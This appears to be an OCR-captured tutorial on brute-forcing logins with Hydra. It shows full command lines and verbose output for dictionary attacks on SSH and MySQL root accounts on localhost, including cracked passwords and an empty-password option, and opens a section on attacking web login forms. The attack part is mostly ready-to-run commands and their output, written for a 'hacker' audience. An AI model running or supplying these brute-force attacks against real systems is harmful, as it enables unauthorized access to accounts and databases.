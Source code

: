 ```bash
root@find:~/Desktop# hydra -t 5 -V -f -l root -P common.txt localhost ssh
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-01-07 14:11:56
[DATA] 5 tasks, 1 server, 935 login tries (l:1/p:935), ~187 tries per task
[DATA] attacking service ssh on port 22
[ATTEMPT] target localhost - login "root" - pass "Admin" - 1 of 935 [child 0]
[ATTEMPT] target localhost - login "root" - pass "Administration" - 2 of 935 [child 1]
[ATTEMPT] target localhost - login "root" - pass "crm" - 3 of 935 [child 2]
[ATTEMPT] target localhost - login "root" - pass "CVS" - 4 of 935 [child 3]
[ATTEMPT] target localhost - login "root" - pass "CYBERDOCS" - 5 of 935 [child 4]
[ATTEMPT] target localhost - login "root" - pass "CYBERDOCS25" - 6 of 935 [child 1]
[ATTEMPT] target localhost - login "root" - pass "CYBERDOCS31" - 7 of 935 [child 3]
[ATTEMPT] target localhost - login "root" - pass "INSTALL_admin" - 8 of 935 [child 4]
[ATTEMPT] target localhost - login "root" - pass "Log" - 9 of 935 [child 2]
[ATTEMPT] target localhost - login "root" - pass "sshfuck" - 10 of 935 [child 0]
[22][ssh] host: 127.0.0.1   login: root   password: sshfuck
[STATUS] attack finished for localhost (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-01-07 14:11:58
```
# MySQL password cracking using hydra
In this case we are going to crack a empty password of mysql. Some Peoples still does not use password to protect their database server. We can make brute force attack like this:
```bash
root@find:~/Desktop# hydra -t 5 -V -f -l root -e ns -P common.txt localhost mysql
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-01-07 14:18:16
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] 4 tasks, 1 server, 937 login tries (l:1/p:937), ~234 tries per task
[DATA] attacking service mysql on port 3306
[ATTEMPT] target localhost - login "root" - pass "root" - 1 of 937 [child 0]
[ATTEMPT] target localhost - login "root" - pass "" - 2 of 937 [child 1]
[ATTEMPT] target localhost - login "root" - pass "Admin" - 3 of 937 [child 2]
[ATTEMPT] target localhost - login "root" - pass "Administration" - 4 of 937 [child 3]
[3306][mysql] host: 127.0.0.1   login: root   password: 
[STATUS] attack finished for localhost (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-01-07 14:18:16

Attention to the option of hydra: -e ns .

```
# Web Form brute forcing
I have coded a simple html login form for this test. Hydra can brute force web form faster and effectively than other tools. But it requires you to understand that how the form is being handled. So the hacker need to have basic understanding of html too. Also the hacker/you need to find out the correct username otherwise it will be failed or will need to brute force the  user name which is really bad idea.
